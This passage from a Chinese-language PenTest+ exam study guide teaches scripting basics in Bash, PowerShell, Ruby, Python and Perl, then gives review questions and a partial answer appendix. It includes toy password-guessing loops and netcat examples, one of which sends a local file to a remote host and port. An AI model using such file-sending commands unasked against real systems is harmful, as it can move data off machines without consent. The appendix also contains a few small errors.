PowerShell 和其他语言中 `while` 循环的主要区别在于，`while` 条件出现在循环语句的末尾而不是开头。否则，该语句的工作方式与其他语言中相同。让我们用 PowerShell 编写密码破解脚本：

```
function Test-Password {
  if ($args[0] -eq 'mike12345') {
       return 1
    }
else {
       return 0
    }
}
 
$cracked=0
$i=0
 
Do {
    $test='mike' + $i
    $cracked = Test-Password $test
    $i++
}
While($cracked -eq 0)
 
Write-Host "Cracked password:" $test
```

你应该能够分析这段代码，尽管 PowerShell 函数的一些语法可能不熟悉，但你仍然应该能够很好地理解代码的工作原理。请记住，考试时你不需要 `write` 代码——你只需要 `analyze` 它。

### Ruby

Ruby 中 `while` 循环的基本结构如下：

```
while condition
     code statements
end
```

凭借你在 Bash 和 PowerShell 中阅读这些语句的经验，这现在应该对你很熟悉。以下是我们的密码破解脚本转换为 Ruby 的示例：

```
def test_password(pw) 
     if pw=='mike12345'
          return 1
     else
          return 0
     end
end
 
cracked=0
i=0
 
while cracked == 0 
     test="mike" + i.to_s
     cracked=test_password(test)
     i=i+1
end
 
puts 'Cracked Password:', test
```

### Python

让我们将注意力转向 Python，其中 `while` 循环的语法如下：

```
while condition:
     code statements
```

以下是我们的密码破解脚本：

```
def test_password(pw): 
     if pw=='mike12345':
          return 1
     else:
          return 0
 
cracked=0
i=0
 
while cracked == 0:
     test="mike" + str(i)

     cracked=test_password(test)
     i=i+1
 
print('Cracked Password:', test)
```

## Perl

Perl 的 `while` 循环使用简单的语法：

```
while(condition){
       commands
}
```

以下是我们的密码破解脚本的 Perl 版本：

```
#!/usr/bin/perl
 
sub testPassword {
        my $pw = $_[0];
 
        if($pw eq "mike12345"){
                return 1;
        }else{
                return 0;
        }
}
 
$cracked = 0;
$i = 0;
 
while($cracked==0){
        $test = "mike" . $i;
        $cracked = testPassword($test);
        $i=$i+1;
}
 
print("Cracked password: " . $test . "\n");
 
```

## JavaScript

在 JavaScript 中，`while` 循环的语法与 Perl 相同：

```
while(condition){
       commands
}
```

## 识别 `while` 循环的语言

当你被要求分析一段代码并识别脚本所使用的语言时，`while` 循环也可以为你提供重要线索。

如果你在代码段中看到 `while` 循环，可能可以利用该段来识别正在使用的语言。图 12.6 包含一个旨在帮助你做出决定的流程图。

 

图 12.6 识别 `while` 循环的语言

## 输入和输出（I/O）

到目前为止，我们已经编写了脚本并从命令行执行它们。因此，我们创建的所有输出都直接显示在发出命令的提示符下方。这种方法被称为将输出发送到终端。也可以将输出发送到文件或网络位置。同样，你也可以从文件向程序提供输入。

### 重定向标准输入和输出

将输出发送到文件的最简单方法是在命令行中使用 `>` 运算符进行重定向。例如，此命令将在 Python 中运行 `password.py` 脚本并将输出保存到名为 `password_output.txt` 的文件中：

```
python password.py> password_output.txt
```

执行此命令时，操作系统会创建一个名为 `password_output.txt` 的新文件，并将通常会显示在屏幕上的所有输出发送到该文件中。如果文件已存在，其内容将被新信息覆盖。如果你想将信息追加到现有文件中，可以使用 `>>` 运算符。例如，命令：

```
python password.py>> password_output.txt
```

如果 `password_output.txt` 不存在，则会创建一个新文件；如果磁盘上已存在该文件，则会将新输出追加到现有文件中。

要从文件向程序发送输入，可以使用 `<` 运算符表示你要将文件的内容作为输入发送到程序。例如，如果你想将 `wordlist.txt` 发送到 `password.py` 作为输入，可以发出此命令：

```
python password.py < wordlist.txt
```

最后，你可以使用管道运算符（`|`）将两个程序连接起来，将一个程序的输出发送到另一个程序的输入。例如，以下命令将运行 `nmapweekday.py` 脚本，然后将该脚本的输出发送到 `grep` 命令，搜索任何包含单词 `http` 的结果：

```
python nmapweekday.py | grep http
```

### 网络输入和输出

你也可以使用 `nc` 命令直接将输出发送到或从网络连接接收输出。例如，以下命令使用 `nc` 监听端口 8080 上的输入，然后将其写入名为 `web_input.txt` 的文件：

```
nc -l 8080> web_input.txt
```

`‐l` 标志指示 `nc` 监听端口 8080。然后它将在该端口接收到的任何输入存储在 `web_input.txt` 文件中。

`nc` 命令也可用于将输出发送到远程位置。例如，以下命令将当前系统上的文件 `web_input.txt` 发送到位于 192.168.1.1 且端口为 1234 的系统：

```
nc 192.168.1.1 1234 < web_input.txt
```

### 逗号分隔值（CSV）

许多渗透测试工具接受输入并生成一种名为逗号分隔值（CSV）的标准文件格式的输出。CSV 文件为每个数据记录包含一行，然后使用逗号分隔该记录中的字段。它们是简单的文本文件，由于其简单性，几乎被普遍接受为输入并生成输出。

## 错误处理

渗透测试人员（或攻击者！）试图利用软件安全漏洞的最常见方式之一，是向程序提供意外输入以诱发错误条件。开发人员应始终使用错误处理技术来检测和缓解这些情况。

大多数现代编程语言使用一种名为 `try..catch` 子句的结构来执行错误处理。`try` 子句指定要执行的命令，`catch` 子句在命令生成任何错误时执行。`catch` 子句中的命令会“捕获”错误并适当处理。以下是 `try..catch` 子句的一些伪代码：

```
try {
     some commands
}
catch {
     other commands executed only if there is an error
}
```

### Bash

Bash 不提供显式的错误处理功能。开发人员如果希望在 Bash 中实现错误处理，不能依赖一个不错的 `try..catch` 函数，而必须使用条件执行子句编写自己的错误处理例程。这很复杂，超出了本书的范围。这是开发人员编写生产代码时通常避开 Bash 而转而使用更高级语言的又一个好理由。

### PowerShell

与 Bash 不同，PowerShell 确实支持使用 `try..catch` 框架进行强大的错误处理。例如，本章前面“`for` 循环”部分中编写的脚本里的 `nslookup` 命令可能会生成错误。以下是一些 PowerShell 代码，旨在捕获此错误并打印一条通用错误消息，而不是停止执行：

```
$net="192.168.1."
for($hst = 0; $hst -lt 258; $hst++)
{
    $ip= $net + $hst
    try {
     nslookup $ip
    }
    catch {
     "An error occurred." 
    }
}
```

### Ruby


Ruby 也使用 `try..catch` 框架，但关键字不同。你将使用 `begin` 和 `end` 关键字来包含将作为 `try` 子句一部分的所有命令。在这些命令之后，但在 `end` 关键字之前，包含 `rescue` 关键字，后跟错误处理命令，如以下代码所示：

```
net = '192.168.1.'
..
for hst in 0..255 do
        begin
                ip= net + hst.to_s
                system 'nslookup ' + ip
        rescue
                puts 'An error occurred.'
        end
end
```

### Python

Python 使用相同的熟悉 `try..catch` 框架，但它使用 `except` 关键字而不是 `catch`。以下是本章前面“`for` 循环”部分中的名称解析脚本示例，已重写为使用错误处理：

```
import socket

net = '192.168.1.'

for hst in range(0,256):
        ip= net + str(hst)

        try:
                print(ip, ': ', socket.gethostbyaddr(ip), '\n')
        except:
                print(ip, ': Unknown host\n')
```

## 高级数据结构

在使用各种工具时，你可能会遇到适合这些工具并被不同编程语言使用的不同数据结构。在准备 PenTest+ 考试时，你应该熟悉其中一些数据结构。

### JavaScript 对象表示法 (JSON)

`JavaScript Object Notation (JSON)` 是一种常用于交换信息的格式。它由 `key/value` 对组成，其中键是变量名，值是分配给该变量的值。以下是一个可能用于描述组织中系统的 JSON 对象示例：

```
{
    "system": {
             "hostname":      "www.certmike.com",
             "ip": "54.174.107.98",
             "security_scanned": true
              }
}
```

此 JSON 对象有三个不同的键：

*   键 `hostname` 的值为 [www.certmike.com](http://www.certmike.com)。

*   键 `ip` 的值为 54.174.107.98。

*   键 `security_scanned` 的值为 `true`。

其他编程语言，例如 Python，使用类似的键/值对，但将它们称为 `dictionaries`。

### 树

树是一种允许开发人员存储层次结构数据的数据结构。每个树都有一个根节点，然后在根节点下有一个或多个子节点。这些子节点中的每一个反过来又可能有自己的子节点。

树通常用于存储具有天然层次结构格式的信息，因为它们以这种方式易于导航。例如，图 12.7 显示了存储在层次结构树中的 [certmike.com](http://certmike.com) 域信息。导航此树的用户或程序可以按逆序解析域名，从 DNS 根节点开始，然后导航到 `.com` 节点、`certmike` 节点，最后是 `www` 节点。该最终节点或叶节点将包含所请求服务器的 IP 地址和其他信息。


FIGURE 12.7 Storing DNS information in a tree data structure

## 代码复用

成熟的软件开发组织意识到，他们经常在应用程序之间执行相同或类似的任务，并且在应用程序之间复用代码可以节省时间并减少错误。代码复用有多种方式：

*   `Classes` 是可在应用程序之间复用的复杂数据结构的模板。例如，网络安全工具的开发人员可能会创建一个名为 `system` 的类，用于存储目标系统的所有相关信息。该类可能在漏洞扫描器、配置管理工具、资产管理工具和其他应用程序中很有用。开发人员随后可以在这些应用程序之间复用 `system` 类，节省时间并促进应用程序互操作性。

*   `Procedures` 和 `functions` 是完成特定任务的可复用代码段。它们通常从其他代码接受输入，对该输入执行某种转换，然后提供输出。例如，在本章的“`while` 循环”部分中，我们创建了一个测试密码的函数。

*   `Libraries` 或 `modules` 是函数、类和其他可复用代码元素的集合，可以导入到代码中，简化复用。例如，Perl 中的 `Nmap::Scanner` 模块提供了类和函数，使在 Perl 中运行和解释 Nmap 扫描变得容易。

## 编码在渗透测试中的作用

渗透测试人员可能会以两种不同的方式使用代码开发和分析工具：分析攻击者使用的代码，以及自动化他们作为渗透测试人员的工作。

### 分析利用代码

渗透测试人员可能会遇到攻击者在针对其系统的攻击中使用的代码，或者他们可能会发现希望在自己的测试中使用的利用代码。在检查利用代码时，有三项常见活动可能有助于确定代码的性质和目的：

*   `Enumeration` 技术旨在识别环境中资源的所有实例。系统枚举旨在识别网络上的所有系统，用户/账户枚举尝试识别有权访问环境的个人，域枚举旨在识别父域的所有有效子域，等等。

*   从 Internet 或其他来源 `Downloading files` 通常用于更新恶意代码、获取指令或导入新工具。渗透测试人员应仔细关注这些下载，因为下载文件的位置和性质可能会提供有关攻击者身份和/或动机的线索。

*   `Launching remote access` 是攻击者的主要目标之一。一旦他们能够在系统上运行利用代码，他们就会寻求创建远程访问功能，以便远程控制系统。同样，此远程访问连接的性质可能会提供有关攻击性质和目的的重要线索。

### 自动化渗透测试

渗透测试是繁琐的工作，渗透测试人员应投资于可能提高其效率的自动化技术。PenTest+ 目标建议在三个不同的领域进行自动化：

*   `Scanning Systems` 测试人员可能会创建代码，自动执行环境的端口扫描，处理这些结果，然后根据初始扫描的结果自动触发后续步骤。例如，如果端口扫描显示 Web 服务器正在端口 443（或另一个端口）上接受 HTTPS 连接，则对该端口的后续扫描可能会枚举服务器支持的 SSL 和/或 TLS 密码，并为渗透测试人员生成报告以供审查。

*   `Configuration Analysis of Target Systems` 当渗透测试人员识别目标系统时，自动化代码可以探测该系统的配置，并生成一份报告，帮助测试人员识别可能的后续步骤。

*   `Modifying of IP Addresses in Routine Activities` 此技术允许以迭代方式快速将技术应用于许多不同的系统。我们在本章的“`for` 循环”部分中使用了此技术来循环 IP 地址。

## 摘要

脚本有助于减轻渗透测试中大量繁琐、重复的工作。通过编写短脚本，渗透测试人员可以快速执行命令的许多不同排列组合，以协助暴力攻击、网络扫描和类似任务。


本章仅浅尝辄止地介绍了脚本编写，旨在帮助你准备 PenTest+ 考试。该考试要求你具备基础知识水平，能够“分析用 Bash、PowerShell、Ruby 或 Python 编写的基本脚本”。你需要做好准备，识别不同脚本的语言，分析代码以解释其功能，并将提供的代码片段插入到正确的位置。考试结束后，你应考虑扩展这些语言的技能，以改进你的渗透测试工具包。

## 考试要点

### 解释 shell 脚本语言如何为自动化命令行活动提供基本功能

这些脚本语言旨在快速完成粗糙的活动，例如自动化通常在命令提示符下执行的工作。考试中你应该熟悉的两种 shell 语言是用于 Mac/Linux 系统的 `Bash` 和用于 Windows 系统的 `PowerShell`。

### 了解高级编程语言如何将脚本提升到下一个层次

`Python`、`Ruby`、`Perl` 和 `JavaScript` 为开发人员提供了功能齐全的编程语言，旨在能够处理复杂输入并执行几乎任何可能的功能。这些语言的真正威力在于能够加载包含他人编写代码的模块。

### 了解变量如何在内存中存储值以供以后使用

所有编程语言都允许开发人员将数据存储在变量中，这些变量稍后可以以编程方式访问。数组提供了在单个数据结构中存储多个相同数据类型元素的能力，以便于引用和操作。

### 解释流程控制元素如何允许程序员构建其代码的逻辑设计

使用 `if..then..else` 子句的条件执行允许开发人员在执行代码之前测试逻辑条件。`for` 循环允许代码重复执行指定次数。`while` 循环继续执行代码，直到逻辑条件不再为真。

### 了解错误处理如何允许开发人员指定在发生错误时应执行的代码

许多安全漏洞源于代码中未处理的错误持续存在。大多数编程语言中的 `try..catch` 子句允许开发人员通过提供代码来显式处理错误条件，从而避免这种情况。

### 描述渗透测试人员如何使用代码开发技能分析利用代码

当渗透测试人员遇到针对他们使用的利用代码，或他们打算在攻击中使用的利用代码时，应寻找可能帮助他们识别代码性质的关键证据。这些证据包括枚举技术、下载文件和启动远程访问。

### 演示渗透测试人员如何开发软件以自动化其活动

软件开发通过自动化常规任务，有助于减少渗透测试的繁琐性。自动化的关键机会包括修改不同工具针对的 IP 地址、扫描感兴趣的系统以及执行配置分析。

## 实验练习

### 活动 12.1：反向 DNS 查找

在本章中，我们创建了多种语言的脚本，旨在对整个网络子网执行反向 DNS 查找。修改其中一个脚本以在你自己的网络上工作。你可以使用本书中的代码作为起点，并使用你选择的语言执行此任务。

### 活动 12.2：Nmap 扫描

在本章中，我们创建了多种语言的脚本，旨在对整个网络子网执行 Nmap 扫描。修改其中一个脚本以在你自己的网络上工作。你可以使用本书中的代码作为起点，并使用你选择的语言执行此任务。

## 复习题

你可以在附录中找到答案。

1. 以下哪些操作系统支持 PowerShell 解释器？

   1. Linux
   2. Mac
   3. Windows
   4. 以上全部

2. 检查以下代码行。它可能是用什么编程语言编写的？

   ```
   print("The system contains several serious vulnerabilities.");
   ```

   1. Ruby
   2. PowerShell
   3. Bash
   4. Perl

3. 检查以下代码行。它是用什么编程语言编写的？

   ```
   Write-Host "The system contains several serious vulnerabilities."
   ```

   1. Perl
   2. PowerShell
   3. JavaScript
   4. Python

4. 以下哪个陈述不正确地描述了 Ruby 编程语言？

   1. 它是一种通用编程语言。
   2. 它是一种解释型语言。
   3. 它使用脚本。
   4. 它是一种编译型语言。

5. 以下哪个命令将允许文件所有者执行 Bash 脚本？

   1. `chmod o+e script.sh`
   2. `chmod o+x script.sh`
   3. `chmod u+e script.sh`
   4. `chmod u+x script.sh`

6. 以下哪个 PowerShell 执行策略允许执行你在本地计算机上编写的任何 PowerShell 脚本，但要求从 Internet 下载的脚本必须由受信任的发布者签名？

   1. Bypass
   2. Unrestricted
   3. RemoteSigned
   4. AllSigned

7. 以下哪行代码将在 PowerShell 脚本中创建一个数组？

   1. `$ports = 22, 25, 80, 443`
   2. `ports = (22,25,80,443)`
   3. `ports = [22,25,80,443]`
   4. `$ports = [22,25,80,443]`

8. Ruby 中哪个比较运算符测试相等性？

   1. `‐eq`
   2. `‐ne`
   3. `==`
   4. `!=`

9. 在 URL 字符串中，哪个值用于编码空格？

   1. %20
   2. %21
   3. %22
   4. %23

10. 检查此代码片段。这段代码是用什么语言编写的？

    ```
    begin
           system 'nmap ' + ip
    rescue
           puts 'An error occurred.'
    end
    ```

    1. Python
    2. PowerShell
    3. Ruby
    4. Bash

11. 以下哪对语言允许直接将字符串和整数连接？

    1. Python and Bash
    2. Bash and PowerShell
    3. Python and Ruby
    4. Ruby and PowerShell

12. Ruby 脚本中 `elsif` 子句的数量限制是多少？

    1. 1
    2. 2
    3. 10
    4. 没有限制

13. 考虑以下 Python 代码：

    ```
    if 1 == 1:
           print("hello")
    elif 3 == 3:
           print("hello")
    else:
           print("hello")
    ```

    这段代码会打印多少次单词“hello”？

    1. 0
    2. 1
    3. 2
    4. 3

14. 分析以下代码段：

    ```
    Do {
        $test='mike' + $i
        $cracked = Test-Password $test
        $i++
    }
    While($cracked -eq 0)
    ```

    这段代码是用什么语言编写的？

    1. Ruby
    2. PowerShell
    3. Python
    4. Bash

15. 分析以下代码段：

    ```
    if [ $weekday==1 ]
    then
          /usr/local/bin/nmap 192.168.1.1
     
    elif [ $weekday==3 ]
    then
          /usr/local/bin/nmap 192.168.1.2
     
    else
          /usr/local/bin/nmap 192.168.1.0/24
    fi
    ```

    这段代码是用什么语言编写的？

    1. Ruby
    2. PowerShell
    3. Python
    4. Bash

16. 分析以下代码段：

    ```
    for hst in range(0,256):
        ip= net + str(hst)
        print(ip, ': ', socket.gethostbyaddr(ip), '\n')
    ```

    这段代码是用什么语言编写的？

    1. Ruby
    2. PowerShell
    3. Python
    4. Bash

17. 你可以使用哪个 Unix 命令来监听网络端口上的输入？

    1. `grep`
    2. `sed`
    3. `awk`
    4. `nc`

18. 以下哪种编程语言不提供内置的强大错误处理功能？

    1. PowerShell


2. `Python`

3. `Ruby`

4. `Bash`

19. 在 URL 字符串中，用于对与号进行编码的值是什么？

1. `%24`

2. `%25`

3. `%26`

4. `%27`

20. 在 Bash 中，用于测试一个数字是否大于或等于另一个数字的比较运算符是什么？

1. `‐gt`

2. `‐ge`

3. `>`

4. `>=`

WileyPRE

# 附录 A

## 复习题答案

### 第 1 章：渗透测试

1. D. Tom 的攻击通过关闭 Web 服务器并阻止合法用户访问，实现了拒绝服务的目标。

2. B. 通过允许学生更改自己的成绩，该漏洞为未经授权的信息篡改提供了途径。Brian 应建议学校部署完整性控制措施，以防止未经授权的修改。

3. A. Snowden 将敏感信息泄露给未获授权访问该信息的个人和团体。这是一次信息泄露攻击的示例。

4. C. PCI DSS 要求组织每年至少对持卡人数据环境进行一次内部和外部渗透测试。组织还必须在持卡人数据环境发生任何重大变更后进行测试。

5. D. 使用内部测试团队可能会在渗透测试过程中引入有意或无意的偏见。这种缺乏独立性是组织可能选择使用外部测试团队的原因之一。

6. B. 定期重复渗透测试不会为组织带来成本效益。事实上，这会产生成本。但是，应该重复进行渗透测试，因为它们可以检测由于测试环境变化和不断演变的威胁态势而出现的问题。使用新团队成员还能提高后续测试的独立性和价值。

7. A. 在规划和范围界定阶段，渗透测试人员及其客户应就测试的参与规则达成一致。这应导致一份书面工作说明书，明确概述渗透测试期间授权的活动。

8. B. 网络杀伤链的侦察阶段对应于渗透测试流程中的信息收集和漏洞扫描步骤。网络杀伤链的其余六个步骤都对应于渗透测试流程中的攻击和利用阶段。

9. B. 虽然 Beth 在网络钓鱼攻击中确实在收集信息，但她正在进行一次主动的社会工程攻击。这超出了信息收集和漏洞扫描的活动范围，进入了攻击和利用的领域。

10. C. Nmap 是一种端口扫描工具，用于枚举系统上的开放网络端口。Nessus 是一种旨在检测系统安全问题的漏洞扫描器。Nslookup 是一种 DNS 信息收集实用程序。这三种工具都可用于收集信息和检测漏洞。Metasploit 是一个用于执行攻击的利用框架，更适合渗透测试的攻击和利用阶段。

11. C. 攻击者在网络杀伤链的目标行动阶段执行其原始意图，以违反信息或系统的机密性、完整性和/或可用性。

12. C. 分发受感染的介质（或将其放置在可能被发现的位置）是网络杀伤链中投递阶段的示例。如果用户在设备上执行恶意软件，该过程将从投递转移到安装。

13. C. Whois 和 Nslookup 是用于收集域名和 IP 地址信息的工具。FOCA 用于从文件中收集信息。这三种工具都是 OSINT 工具。Nessus 是一种商业漏洞扫描器。

14. A. Metasploit 是渗透测试人员使用最广泛的利用框架。Wireshark 是一种协议分析器。Aircrack-ng 是一种无线网络安全测试工具。社会工程工具包（SET）是一个用于进行社会工程攻击的框架。

15. A. Cain and Abel、Hashcat 和 Jack the Ripper 都是密码破解实用程序。OWASP ZAP 是一种 Web 代理工具。

16. D. Nikto 是一种开源 Web 应用程序安全评估工具。SQLmap 确实测试 Web 应用程序，但它只测试 SQL 注入漏洞。OpenVAS 和 Nessus 是通用漏洞扫描器。虽然它们可以检测 Web 应用程序安全问题，但并非专门为此目的设计的。

17. A. OLLYDBG、WinDBG 和 IDA 都是支持 Windows 环境的调试工具。GDB 是一种特定于 Linux 的调试工具。

18. C. 在目标行动阶段，攻击者执行攻击目的所对应的活动。因此，这是链条中的最后一个阶段。

19. B. 威胁狩猎假设组织已经遭到入侵，并搜索成功攻击的迹象。

20. B. 在渗透测试的最后阶段，即报告和沟通阶段，测试人员会为测试期间发现的问题提供缓解策略。

### 第 2 章：规划和界定渗透测试范围

1. C. 工作说明书涵盖双方之间的工作协议，并用于补充现有合同或主服务协议（MSA）。NDA 是保密协议，MDA 缩写是本问题虚构的。

2. D. PTES、OSSTMM 和 ISSAF 都是渗透测试方法论或标准。MITRE 的 ATT&CK 框架描述对手战术和技术，但不概述如何执行渗透测试。

3. C. 已知环境测试，通常也称为“晶体盒”或“白盒”测试，提供完全访问权限和可见性。未知环境，即黑盒测试，不提供任何信息，而部分知识，即灰盒测试，提供有限信息。

4. B. 保密协议，或 NDA，涵盖渗透测试人员在工作中可能遇到或发现的数据和其他信息。它作为一项法律协议，防止泄露该信息。

5. C. 云服务提供商通常不允许针对其服务进行测试。Charles 可能会建议公司索取第三方安全审计信息。云系统和大型环境可能难以界定范围，可能需要更多时间，但这里的主要问题是能否合法地进行所请求的评估。

6. D. Alex 发送流量的 IP 地址或网络很可能已被目标组织的防御措施列入黑名单。白名单会允许他进入，服务器或网络宕机的可能性要小得多。

7. A. 主服务协议（MSA）是一份合同，定义未来工作将在其条款下完成。具体工作通常随后在工作说明书（SOW）下处理。

8. C. Cassandra 正在测试的组织可能已部署网络访问控制（NAC）。她的系统将没有安装适当的 NAC 客户端，她将无法在未经身份验证且未经 NAC 系统批准其系统的情况下访问该网络插口。

9. A. 基于目标的评估专门针对获取特定系统或数据访问权限等目标。基于合规性的评估作为合规工作的一部分进行，将重点关注系统是否得到妥善保护或符合标准。红队评估旨在模拟实际攻击或渗透，测试人员将重点关注寻找进入方式并最大限度地提高访问权限，而不是全面识别和测试他们能找到的所有漏洞和缺陷。黑队评估不是常用的渗透测试术语。


10. C. 了解范围内的 `SSIDs` 在共享建筑中工作至关重要。渗透错误的网络可能会给粗心的渗透测试人员带来法律甚至刑事后果！

11. A. 时间限制可用于确保测试在系统未使用时进行，以便在出现问题时留出恢复或修复的时间。允许的测试类型或被拒绝的测试类型不太可能被使用，因为它们可能会限制测试的价值，而限制物理位置对于没有许多不同地点的小型组织来说并不常见。

12. C. 范围蔓延是指将额外项目添加到评估范围中。Chris 已超出初始评估协议的范围。如果额外的时间和精力没有在现有合同的补充协议中予以考虑，这可能会给客户带来高昂的费用，或者可能导致 Chris 收入损失。

13. D. PCI DSS 标准是信用卡处理组织合规性的行业标准。因此，Lucas 正在进行基于合规性的评估。

14. B. 评估仅在发生时才有效。系统会因补丁、用户更改和配置更改而不断变化。Greg 的时间点有效性声明是渗透测试合同中的关键要素。

15. C. 访问有线网络可能需要物理访问权限，这可能作为部分知识渗透测试的一部分提供。在未知环境测试中，Ian 可能需要找到一种远程破坏连接到网络的系统的方法，或者获得系统所在建筑物的物理访问权限。了解 IP 范围或无线网络的 `SSIDs` 对于这种类型的测试不是必需的。一旦他连接上，就可以确定 IP 范围，并且测试特别指出有线网络未连接。

16. C. Megan 应该查找 API 文档。如果应用程序使用 API，她可能能够使用默认的 API 凭据或方法来收集数据。问题未提及数据库，系统密码和网络配置设置在此处不那么有用。

17. C. 虽然 ISO 或赞助商可能是合适的签署机构，但 Charles 需要验证签署人是否确实是组织的合适签署机构。这意味着此人必须有权将组织承诺给渗透测试。不幸的是，这不是一个法律术语，因此 Charles 可能需要与他的项目赞助商做一些功课，以确保此事正确进行。

18. B, C. 测试的全面性以及仅在进行测试时点相关的限制，都是 Elaine 应该包含的适当免责声明。被评估组织的风险和影响容忍度应用于定义评估的范围和交战规则。

19. B. 开放 Web 应用程序标准项目提供移动应用程序测试指南作为其文档的一部分，使其成为 Jen 在这份列表中的最佳选择。NIST 提供关于测试应包含内容的高级别指导，`KALI` 是一个以安全为重点的 Linux 发行版，而 ISSAF 是一个过时的渗透测试标准。

20. A. 零知识的红队评估将尝试进行渗透测试，就像实际攻击者一样，他们对组织没有事先或内部知识。全面知识评估提供的知识比攻击者预期拥有的更多，而基于目标的评估针对特定系统或组织元素，而不是实际攻击者可能针对的更广泛的潜在攻击面。

#### Chapter 3: Information Gathering

1. D. 这是端口扫描，而不是漏洞扫描，因此 Megan 无法仅凭此扫描确定服务是否存在漏洞。`Nmap` 扫描将显示端口的状态，包括 TCP 和 UDP。

2. C. `FOCA`，即通过收集的存档对组织进行指纹识别，是一个用于通过搜索引擎搜索元数据的有用工具。`ExifTool` 用于单个文件。MetaSearch 是为此问题编造的，虽然 `Nmap` 有许多功能，但它不用于通过搜索引擎搜索元数据。

3. A. `Zarmeena` 知道 TCP 端口 139、445 和 3389 通常用于 Windows 服务。尽管这些端口在 Linux、Android 或 iOS 设备上也可能开放，但 Windows 是她的最佳选择。

4. A. 仅通过 UDP 扫描会遗漏任何 TCP 服务。由于当今使用的绝大多数服务都是作为 TCP 服务提供的，这不是进行扫描的有用方法。将扫描设置为更快的时序（3 或更快），将 TCP 连接扫描更改为 TCP SYN 扫描，或限制测试的端口数量，都是加快扫描的有效方法。Charles 需要意识到这些变化可能意味着什么，因为快速扫描可能会被检测到或给网络带来更大负载，并且扫描较少端口可能会遗漏一些端口。

5. D. `Karen` 知道许多系统管理员会将服务从常见服务端口移至备用端口，并且 8080 和 8443 很可能是备用 HTTP（TCP 80）和 HTTPS（TCP 443）服务器端口，她将使用 Web 浏览器连接到这些端口以进行检查。她可以使用 Telnet 进行此测试，但它需要大量手动工作才能获得相同的结果，除非 Karen 没有其他选择，否则它是一个糟糕的第二选择。

6. A. `ExifTool` 旨在从图像和其他文件中提取元数据。`Grep` 可能有助于在文件中搜索特定文本，但它不会提取文件中可能的元数据范围。`PsTools` 是一个 Windows Sysinternals 包，包含各种面向进程的工具。`Nginx` 是一个 Web 服务器、负载均衡器和多用途应用程序服务堆栈。

7. D. `Nmap` 中的操作系统识别基于各种响应属性。在此情况下，`Nmap` 的最佳猜测是远程主机正在运行 Linux 2.6.9–2.6.33 内核，但无法更具体。它不指定发行版、补丁级别或系统上次打补丁的时间。

8. D. 可用于 TCP 和 UDP 服务的完整端口范围是 1–65,535。尽管端口 0 存在，但它是保留端口，不应使用。

9. D. TCP 连接扫描通常在非特权帐户是测试人员唯一选择时使用。Linux 系统通常不会允许非特权帐户直接访问以创建数据包，但它们会允许帐户发送流量。Steve 可能无法使用 TCP SYN 扫描，但连接扫描很可能有效。显示的其他标志用于版本测试（`‐sV`）和输出类型选择（`‐oA`），而 `‐u` 根本不起作用。

10. C. WHOIS 提供的信息可能包括组织的物理地址、注册商、联系信息和其他详细信息。`Nslookup` 将提供 IP 地址或主机名信息，而 `host` 命令提供 IPv4 和 IPv6 地址以及电子邮件服务信息。`traceroute` 尝试识别到远程主机的路径以及沿途的系统。

11. C. `Nmap` 中的 `‐T` 标志用于设置扫描时序。时序设置范围从 0（偏执）到 5（疯狂）。默认情况下，它在 3（正常）下运行。当时序设置为非常慢的速度时，Chris 将在 /16 网络上运行扫描非常、非常长的时间。

12. B. `Nmap` 支持的 Script Kiddie 输出格式纯粹是为了好玩——你永远不应该在实际渗透测试中使用 `‐oS` 标志的实际需求。


### 13. B

The `strings` command parses a file for strings of text and outputs them. It is often useful for analyzing binary files, since you can quickly check for information with a single quick command-line tool. Netcat, while often called a pentester's Swiss Army knife, isn't useful for this type of analysis. Eclipse is an IDE and would be useful for editing code or for managing a full decompiler in some cases.

### 14. C

The Asia-Pacific NIC covers Asia, Australia, New Zealand, and other countries in the region. RIPE covers central Asia, Europe, the Middle East, and Russia, and ARIN covers the United States, Canada, parts of the Caribbean region, and Antarctica.

### 15. B

Checking for DNS load balancing via ping requires checking time to live (TTL) and IP address differences. Using Nmap or Nessus is less likely to be successful, because most devices in a pool should provide the same services and service versions. WHOIS records do not show load balancing details.

### 16. B

Charles has issued a command that asks `hping` to send SYN traffic (`-S`) in verbose mode (`-V`) to [remotesite.com](http://remotesite.com) on port 80.

### 17. C

A series of three asterisks during a traceroute means that the host query has failed but that traffic is passing through. Many hosts are configured to not respond to this type of traffic but will route traffic properly.

### 18. A

The Common Weakness Enumeration is a community-developed list of hardware and software weaknesses. Although OWASP provides a massive amount of application security knowledge, it is not in and of itself a listing or standard for listing flaws. The Diamond Model is a model designed to evaluate intrusions, and CVE, the Common Vulnerabilities and Exposures database, focuses on vulnerabilities for commercial and open source projects and thus will not typically be used for internal applications and code.

### 19. B

Penetration testers are always on the lookout for indicators of improper maintenance. Lazy or inattentive administrators are more likely to make mistakes that allow penetration testers in.

### 20. D

All of these tools except ExifTool are usable as port scanners with some clever use of command-line flags and options.

## Chapter 4: Vulnerability Scanning

### 1. C

SQLmap is a dedicated database vulnerability scanner and is the most appropriate tool for use in this scenario. Ryan might discover the same vulnerabilities using the general-purpose Nessus or OpenVAS scanners, but they are not dedicated database vulnerability scanning tools. Nikto is a web application vulnerability scanner.

### 2. D

A full scan is likely to provide more useful and actionable results because it includes more tests. There is no requirement in the scenario that Gary avoid detection, so a stealth scan is not necessary. However, this is a black-box test, so it would not be appropriate for Gary to have access to scans conducted on the internal network.

### 3. A

An asset inventory supplements automated tools with other information to detect systems present on a network. The asset inventory provides critical information for vulnerability scans. It is appropriate to share this information with penetration testers during a white-box penetration test.

### 4. D

PCI DSS requires that organizations conduct vulnerability scans on at least a quarterly basis, although many organizations choose to conduct scans on a much more frequent basis.

### 5. B

QualysGuard, Nessus, and OpenVAS are all examples of vulnerability scanning tools. Snort is an intrusion detection system.

### 6. A

Encryption technology is unlikely to have any effect on the results of vulnerability scans because it does not change the services exposed by a system. Firewalls and intrusion prevention systems may block inbound scanning traffic before it reaches target systems. Containerized and virtualized environments may prevent external scanners from seeing services exposed within the containerized or virtualized environment.

### 7. D

Credentialed scans only require read-only access to target servers. Renee should follow the principle of least privilege and limit the access available to the scanner.

### 8. C

Common Product Enumeration (CPE) is an SCAP component that provides standardized nomenclature for product names and versions.

### 9. D

Because this is a black-box scan, Ken should not (and most likely cannot) conduct an internal scan until he first compromises an internal host. Once he gains this foothold on the network, he can use that compromised system as the launching point for internal scans.

### 10. C

The Federal Information Security Management Act (FISMA) requires that government agencies conduct vulnerability scans. HIPAA, which governs hospitals and doctors' offices, does not include a vulnerability scanning requirement, nor does the Gramm-Leach-Bliley Act, which covers financial institutions.

### 11. C

